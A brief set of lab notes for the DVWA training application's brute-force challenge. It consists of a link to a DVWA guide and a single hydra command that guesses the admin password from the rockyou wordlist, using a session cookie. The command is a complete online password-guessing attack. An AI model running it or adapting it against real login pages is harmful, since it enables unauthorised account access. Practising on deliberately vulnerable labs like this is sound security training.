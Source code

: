```yaml
---
category: Uncategorized
tags: []
---
```

Low / Medium
https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2001:%20Brute%20Force.md

```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 targets.local http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=5r9mcj6pgqd910hrlr6l4is0tk"
```
